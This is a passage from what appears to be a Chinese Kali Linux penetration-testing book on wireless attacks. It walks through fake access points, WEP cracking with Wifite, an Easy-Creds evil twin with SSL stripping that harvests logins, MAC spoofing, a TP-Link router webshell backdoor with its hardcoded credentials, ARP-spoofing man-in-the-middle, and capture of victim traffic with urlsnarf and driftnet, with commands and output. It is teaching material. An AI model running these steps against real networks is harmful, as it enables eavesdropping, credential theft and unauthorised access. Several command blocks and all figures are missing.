（4）从该界面可以看到默认的接入点 ESSID 为 honeypot。现在将 honeypot 修改为 personalnetwork，同样将攻击的无线接口的 channel 也要修改。修改后如图 9.32 所示。


图 9.32 创建 Fake AP

（5）以上信息设置完后，其他配置保持默认设置。然后单击 Start Fake Access Point 按钮，将显示如图 9.33 所示的界面。


图 9.33 启动假接入点

（6）当有用户连接创建的 personalnetwork AP 时，该界面会输出如下所示的信息。

```
17:32:34 Client 18:DC:56:F0:62:AF associated(WEP) to ESSID: "personalnetwork" 
```

以上信息表示，MAC 地址 18:DC:56:F0:62:AF 的 AP 正在连接 personalnetwork。

# 9.4 使用 Wifite 破解无线网络

## 9.4 使用 Wifite 破解无线网络

一些破解无线网络程序是使用 Aircrack-ng 工具集，并添加了一个图形界面或使用文本菜单的形式来破解无线网络。这使得用户使用它们更容易，而且不需要记住任何命令。本节将介绍使用命令行工具 Wifite，来扫描并攻击无线网络。

（1）启动 wifite。执行命令如下所示：


（2）停止扫描无线网络，将显示如下所示的信息：


从以上信息中，可以看到扫描到 13 个无线接入点。

（3）选择攻击的目标。这里选择第二个无线接入点，它是使用 WEP 方式加密的。所以，应该比较容易攻击，如下所示：

```
[+] select target numbers (1-13) separated by commas, or 'all': 2
[+] 1 target selected.
[0:10:00] preparing attack "Test" (14:E6:E4:AC:FB:20)
 [0:10:00] attempting fake authentication (5/5)… failed
 [0:10:00] attacking "Test" via arp-replay attack
 [0:09:06] started cracking (over 10000 ivs)
 [0:09:00] captured 12492 ivs @ 418 iv/sec
 [0:09:00] cracked Test (14:E6:E4:AC:FB:20)! key: "6162636465"
 [+] 1 attack completed:
 [+] 1/1 WEP attacks succeeded
        cracked Test (14:E6:E4:AC:FB:20), key: "6162636465"
 [+] disabling monitor mode on mon0… done
 [+] quitting 
```

从以上输出信息中，可以看到攻击成功。其中，Test 无线接入点的密码是 6162636465。

# 9.5 使用 Easy-Creds 工具攻击无线网络

## 9.5 使用 Easy-Creds 工具攻击无线网络

Easy-Creds 是一个菜单式的破解工具。该工具允许用户打开一个无线网卡，并能实现一个无线接入点攻击平台。Easy-Creds 可以创建一个欺骗访问点，并作为一个中间人攻击类型运行，进而分析用户的数据流和账户信息。它可以从 SSL 加密数据中恢复账户。本节将介绍使用 Easy-Creds 工具攻击无线网络。

Easy-Creds 是 BackTrack5 中的一部分。在 Kali 中，默认没有安装该工具。所以，需要先安装 Easy-Creds 工具才可使用。

【实例 9-3】安装 Easy-Creds 工具。具体操作步骤如下所示。

（1）从[`github.com/brav0hax/easy-creds 网站下载 Easy-Creds 软件包，其软件包名为 easy-creds-master.zip。`](https://github.com/brav0hax/easy-creds 网站下载 Easy-Creds 软件包，其软件包名为 easy-creds-master.zip。)

（2）解压下载的软件包。执行命令如下所示：

```
root@localhost:~# unzip easy-creds-master.zip
Archive: easy-creds-master.zip
bf9f00c08b1e26d8ff44ef27c7bcf59d3122ebcc
  creating: easy-creds-master/
 inflating: easy-creds-master/README
 inflating: easy-creds-master/definitions.sslstrip
 inflating: easy-creds-master/easy-creds.sh
 inflating: easy-creds-master/installer.sh 
```

从输出的信息中，可以看到 Easy-Creds 软件包被解压到 easy-creds-master 文件中。从以上信息中，可以看到在 easy-creds-master 文件中有一个 installer.sh 文件，该文件就是用来安装 Easy-Creds 软件包的。

（3）安装 Easy-Creds 软件包。在安装 Easy-Creds 软件包之前，有一些依赖包需要安装。这些依赖包，可以参考 easy-creds-master 文件中的 README 文件安装相关的依赖包。然后，安装 Easy-Creds 包。执行命令如下所示：

```
root@kali:~# cd easy-creds/
root@kali:~/easy-creds# ./installer.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e|||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
        Installer
Please choose your OS to install easy-creds
1\. Debian/Ubuntu and derivatives
2\. Red Hat or Fedora
3\. Microsoft Windows
4\. Exit
Choice: 
```

以上信息显示了，安装 easy-creds 的操作系统菜单。

（4）这里选择安装到 Debian/Ubuntu，输入编号 1，将显示如下所示的信息：

```
Choice: 1
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
          Installer
Please provide the path you'd like to place the easy-creds folder. [/opt] :   #选择安装位置，本例中使用默认设置
[*] Installing pre-reqs for Debian/Ubuntu…
[*] Running 'updatedb'
[-] cmake is not installed, will attempt to install…
  [+] cmake was successfully installed from the repository.
[+] I found gcc installed on your system
[+] I found g++ installed on your system
[+] I found subversion installed on your system
[+] I found wget installed on your system
[+] I found libssl-dev installed on your system
[+] I found libpcap0.8 installed on your system
[+] I found libpcap0.8-dev installed on your system
[+] I found libssl-dev installed on your system
[+] I found aircrack-ng installed on your system
[+] I found xterm installed on your system
[+] I found sslstrip installed on your system
[+] I found ettercap installed on your system
[+] I found hamster installed on your system
[-] ferret is not installed, will attempt to install…
[*] Downloading and installing ferret from SVN
……
[*] Installing the patched freeradius server…
……
make[4]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc/rfc'
make[3]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[2]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[1]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11'
[+] The patched freeradius server has been installed
[+] I found asleap installed on your system
[+] I found metasploit installed on your system
[*] Running 'updatedb' again because we installed some new stuff
…happy hunting! 
```

以上信息显示了安装 Easy-Creds 包的详细过程。在该过程中，会检测 easy-creds 的依赖包是否都已安装。如果没有安装，此过程中会安装。Easy-Creds 软件包安装完成后，将显示 happy hunting！信息。

【实例 9-4】使用 Easy-Creds 工具破解无线网络。具体操作步骤如下所示。

（1）启动 Easy-Creds 工具。执行命令如下所示：

```
root@localhost:~/easy-creds-master#./easy-creds.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice: 
```

以上输出的信息显示了 Easy-Creds 工具的攻击菜单。

（2）这里选择伪 AP 攻击，输入编号 3。将显示如下所示的信息：

```
Choice: 3
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. FakeAP Attack Static
2\. FakeAP Attack EvilTwin
3\. Karmetasploit Attack
4\. FreeRadius Attack
5\. DoS AP Options
6\. Previous Menu
Choice: 
```

以上输出信息显示了伪 AP 攻击可使用的方法。

（3）这里选择使用静态伪 AP 攻击，输入编号 1。将显示如下所示的信息：


设置完以上的信息后，将会自动启动一些程序。几秒后，将会打开几个有效窗口，如图 9.34 所示。


图 9.34 有效的窗口

（4）当有用户连接 Wifi 接入点时，Easy-Creds 将自动给客户端分配一个 IP 地址，并且能够访问互联网。如果在互联网上访问一个安全网址时，该工具将除去 SSL 并删除安全连接并在后台运行。所以，能够读取到客户端登录某个网站的用户名和密码。如图 9.34 所示，捕获到一个登录[`www.live.com 网站的用户名和密码。其用户名为 test@live.com，密码为 qwert。`](http://www.live.com 网站的用户名和密码。其用户名为 test@live.com，密码为 qwert。)

（5）此时在 Easy-Creds 的主菜单中选择数据恢复，输入编号 4，如下所示：

```
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice: 4 
```

（6）选择数据恢复后，将显示如下所示的信息：

```
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Parse SSLStrip log for credentials
2\. Parse dsniff file for credentials
3\. Parse ettercap eci file for credentials
4\. Parse freeradius attack file for credentials
5\. Previous Menu
Choice: 3 
```

以上信息显示了可用证书的方法。

（7）这里选择分析 Ettercap eci 文件，输入编号 3，将显示如下所示的信息：

```
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
Ettercap logs in current log folder:
/root/easy-creds-master/easy-creds-2014-07-24-1722/ettercap2014-07-24-1724.eci
Enter the full path to your ettercap.eci log file: 
```

从输出信息中，可以看到 Ettercap 日志文件的保存位置。

（8）此时输入 ettercap.eci 日志文件的全路径。这里只需要通过复制并粘贴提供的整个 Ettercap 路径就可以了。如下所示：

```
Enter the full path to your ettercap.eci log file: /root/easy-creds-master/easy-creds-2014-07-24-1722/ettercap2014-07-24-1724.eci 
```

输入以下路径后，将显示如图 9.35 所示的界面。


图 9.35 恢复的数据

（9）从该界面可以清楚的看到，截获的客户端用户信息及登录的网站。

# 9.6 在树莓派上破解无线网络

## 9.6 在树莓派上破解无线网络

大部分的命令可以正常的运行在 BackTrack5 或 Kali 上。在 Kali 上可以实现的无线渗透测试，在树莓派上也可以运行。在第一章中介绍了在树莓派上安装 Kali Linux 操作系统，下面将介绍在树莓派上实现无线攻击。

（1）在树莓派上使用 ifconfig 命令查看无线网卡是否被识别。执行命令如下所示：

```
root@kali:~# ifconfig
eth0  Link encap:Ethernet HWaddr 00:0c:29:7a:59:75
      inet addr:192.168.0.112 Bcast:192.168.0.255 Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fe7a:5975/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
      RX packets:240510 errors:0 dropped:0 overruns:0 frame:0
      TX packets:130632 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:275993519 (263.2 MiB) TX bytes:26073827 (24.8 MiB)
lo    Link encap:Local Loopback
      inet addr:127.0.0.1 Mask:255.0.0.0
      inet6 addr: ::1/128 Scope:Host
      UP LOOPBACK RUNNING MTU:65536 Metric:1
      RX packets:1706270 errors:0 dropped:0 overruns:0 frame:0
      TX packets:1706270 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:0
      RX bytes:250361463 (238.7 MiB) TX bytes:250361463 (238.7 MiB)
wlan0 Link encap:Ethernet HWaddr 22:34:f7:f6:c1:d0
      UP BROADCAST MULTICAST MTU:1500 Metric:1
      RX packets:0 errors:0 dropped:0 overruns:0 frame:0
      TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:0 (0.0 B) TX bytes:0 (0.0 B) 
```

从输出的信息中，看到有一个名为 wlan0 的接口。这表示无线网卡已被识别。如果没有看到类似信息，执行如下命令启动无线网络，如下所示：

```
root@kali:~# ifconfig wlan0 up 
```

（2）查看无线网卡信息。执行命令如下所示：


以上输出了的信息显示了无线网卡的相关信息。如网卡 MAC 地址、信道、加密、速率和模式等。

（3）启动无线网卡为监听模式。执行命令如下所示：


从输出的信息中，可以看到无线接口 wlan0 已启动监听模式，其监听接口为 mon0。现在，就可以使用该接口捕获无线管理与控制帧。

在树莓派中，可以使用 Wireshark 的命令行程序 tcpdump 或 tshark 来捕获数据。如果不喜欢在命令行操作的话，可以使用 Wireshark 的图形界面来实现。

（1）启动 Wireshark 工具。执行命令如下所示：

```
root@kali:~# wireshark & 
```

（2）在 Wireshark 的接口列表中选择 mon0 接口，并单击 Start 按钮，如图 9.36 所示。


图 9.36 选择捕获接口

（3）启动 Wireshark 捕获后，将显示如图 9.37 所示的界面。


图 9.37 捕获的无线数据包

（4）在该界面可以看到 106 帧是客户端发送 Probe Reques 包，请求连接路由器。107 帧路由器发送 Probe Response 包，响应了客户端的请求。

从以上信息中，可以看到使用隐藏 SSID 并不意味着是一个安全的网络。在 Wireshark 中，使用 MAC 地址过滤也不是最有效的方法。这里可以使用 airodump 命令监听一个无线接入点，获取到连接该接入点的任何设备 MAC 地址。语法格式如下所示：

```
airodump-ng –c 无线 AP 的信道 –a bssid(AP 的 MAC 地址) mon0 
```

当成功获取客户端的 MAC 地址时，用户只需使用 macchanger 命令将自己无线网卡的 MAC 地址修改为客户端的 MAC 地址，即可成功连接到网络。

【实例 9-5】使用 Fern WiFi Cracker 工具攻击，在树莓派上攻击 WEP 和 WPA/WPA2 无线网络。具体操作步骤如下所示。

（1）启动 Fern WiFi Cracker 工具。执行命令如下所示：

```
root@kali:~# fern-wifi-cracker 
```

执行以上命令后，将显示如图 9.38 所示的界面。


图 9.38 Fern WiFi Cracker 主界面

（2）在该界面选择无线网络接口，并单击 Scan for Access points 图标扫描无线网络，如图 9.39 所示。


图 9.39 扫描无线网络

（3）在该界面选择 WiFi WEP 或 WiFi WPA 图标，将显示如图 9.40 所示的界面。


图 9.40 选择攻击目标

（4）在该界面选择攻击目标。然后单击 WiFi Attack 按钮，开始攻击，如图 9.41 所示。


图 9.41 正在攻击

（5）从该界面可以看到，已捕获到 6556 个数据包。当捕获到大约 2 万个包时，将会破解出密码。但是此过程的时间相当长，需要耐心的等待。

# 9.7 攻击路由器

## 9.7 攻击路由器

前面介绍的各种工具，都是通过直接破解密码，来连接到无线网络。由于在一个无线网络环境的所有设备中，路由器是最重要的设备之一。通常用户为了保护路由器的安全，通常会设置一个比较复杂的密码。甚至一些用户可能会使用路由器的默认用户名和密码。但是，路由器本身就存在一些漏洞。如果用户觉得对复杂的密码着手可能不太容易。这时候，就可以利用路由器自身存在的漏洞实施攻击。本节将介绍使用 Routerpwn 工具实施攻击路由器。

Routerpwn 可能是使用起来最容易的一个工具。它用来查看路由器的漏洞。Routerpwn 不包括在 Kali 中，它只是一个网站。其官网地址为[`routerpwn.com/。该网站提供的漏洞涉及很多厂商的路由器，如图 9.42 所示。`](http://routerpwn.com/。该网站提供的漏洞涉及很多厂商的路由器，如图 9.42 所示。)


图 9.42 Routerpwn 主页面

从该界面可以看到有很多厂商的路由器，如国内常用的 D-Link、Huawei、Netgear 和 TP-Link 等。根据自己的目标路由器选择相应生产厂商，这里选择 TP-Link，将显示如图 9.43 所示的界面。


图 9.43 支持的型号及漏洞

从该界面可以看到支持有十六种型号的 TP-LINK 路由器及可利用的漏洞。在路由器漏洞列表中显示了漏洞日期、漏洞描述信息和一个选项[SET IP]。该选项是用来设置目标路由器的 IP。

【实例 9-6】利用 Webshell backdoor 漏洞，获取一个远程路由器（本例中路由器 IP 地址为 192.168.0.1）命令行。具体操作步骤如下所示。

（1）在图 9.43 中单击[SET IP]按钮，将弹出一个对话框，如图 9.44 所示。


图 9.44 输入目标路由器 IP 地址

（2）在该对话框中，输入要攻击的路由器的 IP 地址。然后单击“确定”按钮，将弹出如图 9.45 所示的对话框。


图 9.45 登录路由器对话框

（3）在该界面输入登录路由器的用户名和密码，一般路由器默认的用户名和密码是 admin。然后单击“登录”按钮，将显示如图 9.46 所示的界面。


图 9.46 命令行界面

（4）此时，在该界面可以执行一些查看路由器信息的命令，如查看进程、网络、路由表和 NAT 等。或者直接单击图 9.46 中右侧栏的按钮查看相关信息。在该界面执行命令时，需要输入用户名和密码。这里的用户名和密码是 Routerpwn 网站中 Webshell backdoor 漏洞提供的用户名和密码（osteam 和 5up）。例如，单击“查看网络”按钮，将显示如图 9.47 所示的界面。



图 9.47 路由器的网络连接信息

（5）从该界面可以看到路由器中，所有连接的网络接口信息，如接口的 IP 地址、MAC 地址和传输速率等。如果想要通过执行命令查看，则在指令框中输入 ifconfig 命令。然后单击“发送”按钮，如图 9.48 所示。


图 9.48 运行命令查看网络信息

（6）在该界面单击“发送”按钮后，输出的信息和图 9.47 中的信息一样。

# 9.8 Arpspoof 工具

## 9.8 Arpspoof 工具

Arpspoof 是一个非常好的 ARP 欺骗的源代码程序。它的运行不会影响整个网络的通信，该工具通过替换传输中的数据从而达到对目标的欺骗。本节将介绍 Arpspoof 工具的 使用。

### 9.8.1 URL 流量操纵攻击

URL 流量操作非常类似于中间人攻击，通过目标主机将路由流量注入到因特网。该过程将通过 ARP 注入实现攻击。本小节将介绍使用 Arpspoof 工具实现 URL 流量操纵攻击。使用 Arpspoof 工具实现 URL 流量操作攻击。具体操作步骤如下所示：

（1）开启路由转发功能。执行命令如下所示：

```
root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward 
```

执行以上命令后，没有任何信息输出。

（2）启动 Arpspoof 注入攻击目标系统。攻击的方法是攻击者（192.168.6.102）发送 ARP 数据包，以欺骗网关（192.168.6.1）和目标系统（192.168.6.101）。下面首先欺骗目标系统，执行命令如下所示：

```
root@kali:~# arpspoof -i eth0 -t 192.168.6.101 192.168.6.1
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d 
```

输出的信息显示了攻击者向目标主机 192.168.6.102 发送的数据包。其中 50:e5:49:eb:46:8d 表示攻击者的 MAC 地址；19:21:3f:c3:e5 表示 192.168.6.101 的 MAC 地址。当以上过程攻击成功后，目标主机 192.168.6.101 给网关 192.168.6.1 发送数据时，都将发送到攻击者 192.168.6.102 上。

（3）使用 Arpspoof 注入攻击网关。执行命令如下所示：

```
root@kali:~# arpspoof -i eth0 -t 192.168.6.1 192.168.6.101
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d 
```

以上输出信息显示了攻击者向网关 192.168.6.1 发送的数据包。当该攻击成功后，网关 192.168.6.1 发给目标系统 192.168.6.101 上的信息发送到攻击者主机 192.168.6.102 上。

（4）以上步骤都执行成功后，攻击者就相当于控制了网关与目标主机传输的数据。攻击者可以通过收到的数据，查看到目标系统上重要的信息。

为了验证以上的信息，下面举一个简单的例子。

【实例 9-7】通过使用 Wireshark 抓包验证 Arpspoof 工具的攻击。具体操作步骤如下所示。

（1）启动 Wireshark 工具。在 Kali Linux 桌面依次选择“应用程序”|Kali Linux|Top 10 Security Tools|wireshark 命令，将显示如图 9.49 所示的界面。


图 9.49 Wireshark 启动界面

（2）在该界面 Start 下面，选择要捕获的接口。这里选择 eth0，然后单击 Start 按钮，将显示如图 9.50 所示的界面。


图 9.50 抓包界面

（3）该界面可以对 Wireshark 进行相关设置及启动、停止和刷新数据包。

（4）在目标系统 192.168.6.101 上 ping 网关 192.168.6.1。执行命令如下所示：

```
C:\Users\Administrator>ping 192.168.6.1 
```

以上命令执行完后，到 Kali 下查看 Wireshark 抓取的数据包，如图 9.51 所示。


图 9.51 捕获的数据包

（5）该界面显示了 192.168.6.101 与 192.168.6.1 之间数据传输的过程。其中传输整个过程的编号为 28-33，28-30 是一个请求数据包过程，31-33 是目标响应数据包过程。下面详细分析捕获的数据包。

*   28：表示 192.168.6.101（源）向 192.168.6.1（目标）发送 ping 请求。
*   29：表示 192.168.6.102 将 192.168.6.101 的数据包进行转发。
*   30：表示 192.168.6.102 将转发后的数据包，再向 192.168.6.1 发送请求。
*   31：表示目标主机 192.168.6.1 响应 192.168.6.101 的请求。
*   32：表示该响应被发送到 192.168.6.102 上，此时该主机转发到 192.168.6.1。
*   33：目标主机 192.168.6.1 将转发的数据发送给 192.168.6.101 上。

### 9.8.2 端口重定向攻击

端口重定向又叫端口转发或端口映射。端口重定向接收到一个端口数据包的过程（如 80 端口），并且重定向它的流量到不同的端口（如 8080）。实现这类型攻击的好处就是可以无止境的，因为可以随着它重定向安全的端口到未加密端口，重定向流量到指定设备的一个特定端口上。本小节将介绍使用 Arpspoof 实现端口重定向攻击。使用 Arpspoof 实现端口重定向攻击。具体操作步骤如下所示。

（1）开启路由转发攻击。执行命令如下所示：

```
root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward 
```

（2）启动 Arpspoof 工具注入流量到默认网络。例如，本例中的默认网关地址为 192.168.6.1。执行命令如下所示：

```
root@kali:~# arpspoof -i eth0 192.168.6.1 
```

在 Kali Linux 上执行以上命令后，没有任何输出信息。这是 Kali 1.0.6 上的一个 bug，因为在该系统中 dsniff 软件包的版本是 dsniff-2.4b1+debian-22。执行 arpspoof 命令不指定目标系统时，只有在 dsniff 软件包为 dsniff-2.4b1+debian-21.1 上才可正常运行。

（3）添加一条端口重定向的防火墙规则。执行命令如下所示：

```
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080 
```

执行以上命令后，没有任何输出。

以上设置成功后，当用户向网关 192.168.6.1 的 80 端口发送请求时，将会被转发为 8080 端口发送到攻击者主机上。

### 9.8.3 捕获并监视无线网络数据

使用中间人攻击的方法，可以使 Kali Linux 操作系统处在目标主机和路由器之间。这样，用户就可以捕获来自目标主机的所有数据。本小节将介绍通过使用 Arpspoof 工具实施中间人攻击，进而捕获并监视无线网络数据。

（1）开启路由器转发功能。执行命令如下所示：

```
root@Kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward 
```

（2）使用 Arpspoof 命令攻击主机。执行命令如下所示：

```
root@kali:~# arpspoof -i eth0 -t 192.168.6.106 192.168.6.1
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
...... 
```

执行以上命令表示告诉 192.168.6.106（目标主机），网关的 MAC 地址是 00:0c:29:7a:59:75（攻击主机）。当目标主机收到该消息时，将会修改 ARP 缓存表中对应的网关 ARP 条目。执行以上命令后，不会自动停止。如果不需要攻击时，按下 Ctrl+C 组合键停止攻击。

（3）查看目标主机访问 URL 地址的信息。执行命令如下所示：

```
root@kali:~# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/igd.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/l3f.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/ifc.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:33 +0800] "GET http://192.168\. 6.1:1900/ipc.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "GET http://192.168\. 6.1:1900/igd.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ipc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ifc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ipc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ifc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0" 
```

以上输出的信息显示了目标主机访问互联网的信息。

（4）用户还可以使用 Driftnet 工具，捕获目标系统浏览过的图片。执行命令如下所示：

```
root@kali:~# driftnet -i eth0 
```

执行以上命令后，将会打开一个窗口。当目标主机访问到网页中有图片时，将会在该窗口中显示。

（5）现在到目标主机上，访问互联网以产生捕获信息。例如，随便在目标主机上通过浏览器访问某个网页，攻击主机将显示如图 9.52 所示的界面。


图 9.52 目标主机访问的图片

（6）该界面显示了目标主机上访问的所有图片。现在用户可以通过点击图 9.52 中的任何一张图片，该图片将被保存到 Kali 主机上。此时 driftnet 命令下，将会出现如下所示的信息：

```
root@kali:~# driftnet -i eth0
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d45c168e121f.png' as `driftnet-0.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d45c168e121f.png' as `driftnet-1.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d4ca5d888a08.jpg' as `driftnet-2.jpg'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d4d92a6de806.png' as `driftnet-3.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d4d92a6de806.png' as `driftnet-4.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d5351a9a9e69.png' as `driftnet-5.png' 
```

从上面可以看到，保存了 driftnet 捕获到的 7 张图片。其文件名分别为 driftnet-*.png，并且这些文件默认保存当前目录下。

（7）用户可以使用 Linux 自带的图像查看器查看，如图 9.53 所示。


图 9.53 捕获的图片

（8）该界面显示的是第四张图片。用户可以通过单击“下一张”或“上一张”按钮，切换捕获到的图片。